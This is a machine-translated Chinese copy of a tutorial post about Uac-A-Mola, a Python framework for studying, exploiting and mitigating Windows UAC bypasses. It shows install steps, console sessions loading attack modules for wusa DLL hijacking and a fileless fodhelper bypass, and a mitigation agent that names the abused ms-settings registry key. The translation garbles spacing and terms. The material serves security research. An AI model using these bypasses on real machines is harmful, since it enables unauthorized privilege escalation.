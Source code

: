 # Uac-A-Mola:安全研究人员调查新 Uac 旁路的工具

> 原文：<https://kalilinuxtutorials.com/uac-a-mola-tool-for-security-researchers-to-investigate-new-uac-bypasses/>

[![Uac-A-Mola : Tool For Security Researchers To Investigate New UAC Bypasses](img//99f21676c07b1f70379ff9d56e2f53bc.png "Uac-A-Mola : Tool For Security Researchers To Investigate New UAC Bypasses")](https://1.bp.blogspot.com/-Bvn2qm6hKRI/XbBRlqgGNXI/AAAAAAAADFA/Z82mlP9bM3IY3xrI6x2XDowldUOhREGcACLcBGAsYHQ/s1600/UAC-A-Mola%25282%2529.png)

除了检测和利用已知的旁路之外，UAC-莫拉是一个允许安全研究人员调查新 UAC 旁路的工具。UAC 莫拉有模块进行保护和减轻 UAC 旁路。

**安装**

要安装 uac-a-mola，您必须执行以下操作:

1.  **下载并安装 python 2.7.x for Windows** 考虑到您的特定基础设施，您可以在这里找到二进制文件:【https://www.python.org/downloads/】T2
2.  **将 python 路径添加到路径环境变量**中。您可以通过执行以下步骤来实现这一点:
    *   右键单击“我的电脑”,左键单击“属性”
    *   左键单击进入系统配置
    *   左键单击环境变量
    *   在“系统变量”框中，双击“路径”
    *   左键点击进入新添加以下路径:
        *   C:\Python27\
        *   C:\Python27\scripts\
3.  **从 github** 下载 uac-a-mola 工具。zip 文件或通过克隆 repo。
4.  **用 cmd 打开 uac-a-mola-master 文件夹，执行以下命令**:

**pip install-r requirements . txt**

Uac-a-mola 现在准备好摇滚了！您可以通过键入以下命令来测试其功能:

**CD uacamola
python uacamola . py**

**攻击模块**

使用攻击模块非常简单，几乎不需要解释。你唯一要做的就是使用 ***load*** 命令在框架中加载相应的模块，你可以看到选项或者输入参数使用 ***show*** 命令，用 ***run*** 命令模块被执行:

**也可阅读-[XMLRPC:用 Python 3](https://kalilinuxtutorials.com/xmlrpc-brute-forcer-wordpress-python/)T3 编写的针对 WordPress 的蛮力器**

uac-a-mola >加载。\ modules \ attack \ dll _ jacking _ wusa . py
[++]加载模块…
[+]模块已加载！【UAC-a-mola[DLL _ jacking _ wusa . py]>show

**作者**
| _ Pablo Gonzalez(Pablo @ 11 paths 或@pablogonzalezpe)
**名称**
| _ 用 wusa.py 复制 DLL
**描述**
| _ 用于复制特权路径中的 DLL(wusa 方法 win 7/8/8.1)
| _ Name _ folder = x86 _ Microsoft . Windows . common-controls _ 6595 b 64144 CCF 1 df _ 6 . 0 . 7601 . 17514 _ none _ 41e 6975 e 2 BD 6 f 2(名称文件夹)
|
| _ Destination _ path = C:\ Windows \ System32(目标路径)

UAC-a-mola[dll _ jacking _ wusa . py]>run
[+ 有根吗？😀
移除路径…
成功:完成
UAC-a-mola[dll _ jacking _ wusa . py]>

**再比如:**

uac-a-mola >加载模块\ attack \ file less _ fod helper . py
[+]加载模块…
[+]模块加载完毕！
UAC-a-mola[Fileless _ fod helper . py]>show

**作者**
| _ 圣地亚哥·埃尔南德斯·拉莫斯
**姓名**
| _ Fileless fod helper
|**描述**| _ Fileless–fod helper 绕过 UAC**选项(Field = Value)**
| _ instruction = C:\ Windows \ system3

**缓和模块**

使用缓解方法也很简单，但是它们有一个稍微复杂一些的内部结构，这将在本节中解释。关于它的使用，必须做的第一件事是加载可用的缓解模块:

uac-a-mola >加载模块\缓解\ bypass _ 缓解. py
[+]加载模块…
[+]模块已加载！
uac-a-mola[Bypass _ remediation . py]>show

**Author**
|*Santiago Hernandez Ramos Name |_ 此模块将检测所选的二进制文件并检测可能的 UAC 绕过描述| _ 绕过缓解选项(Field = Value)|*[REQUIRED]Password = None(用于连接的密码)
|
| _[REQUIRED]bin list _ File = None(包含要挂钩的二进制文件列表，每行一个)【关键字】

在这种情况下，我们需要设置一个密码，代理将使用该密码与将在 uacamola 框架中执行的监听器进行通信。我们可以在路径 *uacamola/support/agents* 中找到代理，打开那个文件我们可以看到密码:

fod helper _ ag = Agent(' fod helper . exe '，' localhost '，5555，' uacamola ')
fod helper _ ag . send _ forbidden(" Software \ Classes \ ms-settings \ Shell \ Open \ command ")

*uacamola* 将是用于认证和通信的密码，但我们可以更改它。另一个需要的参数是包含要监视的二进制文件列表的文件的路径，这个二进制文件在代理路径中必须有一个 agent.pyw 文件。

uac-a-mola[Bypass _ remediation . py]> show

**作者**
| _ Santiago Hernandez Ramos
**Name**
| _ 此模块将检测所选的二进制文件并检测可能的 UAC 旁路
**描述**
| _ 旁路缓解
**选项(Field = Value)**
| _ Password = uacamola(连接密码)
|
| _ ^

只需填写这些字段并执行 *run* 命令，uacamola 将开始监控列表中出现的二进制文件中与 UAC 旁路相关的所有活动。

如果检测到危险的活动，它会自动删除(文件系统或注册表的)危险分支，并以安全的方式执行二进制文件。要退出该模式，我们只需按下 *ENTER* 键。

[Download](https://github.com/ElevenPaths/uac-a-mola#attack-modules)